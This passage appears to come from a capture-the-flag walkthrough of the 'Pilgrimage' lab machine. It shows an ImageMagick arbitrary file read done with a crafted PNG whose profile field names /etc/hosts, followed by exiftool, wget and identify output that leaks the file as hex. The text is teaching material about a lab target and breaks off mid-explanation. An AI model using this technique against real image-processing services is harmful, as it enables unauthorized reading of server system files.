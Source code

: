 

`exiftool` will show it as well:



    oxdf@hacky$ exiftool pngout.png
    ExifTool Version Number         : 12.40
    File Name                       : pngout.png
    ...[snip]...
    Profile                         : /etc/hosts
    Image Size                      : 183x122
    Megapixels                      : 0.022



I'll submit this to the site, and download the resulting file:



    oxdf@hacky$ wget http://pilgrimage.htb/shrunk/655cd80f631f0.png    
    --2023-11-21 11:17:16--  http://pilgrimage.htb/shrunk/655cd80f631f0.png                                  
    Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219                                                
    Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
    HTTP request sent, awaiting response... 200 OK   
    Length: 7525 (7.3K) [image/png]                     
    Saving to: ‘655cd80f631f0.png’                                                                           
                                                        
    655cd80f631f0.png          100%[=====================================>]   7.35K  --.-KB/s    in 0s      
                                                        
    2023-11-21 11:17:17 (812 MB/s) - ‘655cd80f631f0.png’ saved [7525/7525]



`identify -verbose` will show the resulting metadata, where the file is
in the `profile` section:



    oxdf@hacky$ identify -verbose 655cd80f631f0.png                    
    Image:
      Filename: 655cd80f631f0.png
      Format: PNG (Portable Network Graphics)           
      Mime type: image/png
      Class: DirectClass
    ...[snip]...  
        Raw profile type: 

         205
    3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
    6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
    206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
    6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
    6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
    730a666630323a3a32206970362d616c6c726f75746572730a
    ...[snip]...



That hex is the file that was read, and can be decoded many ways:


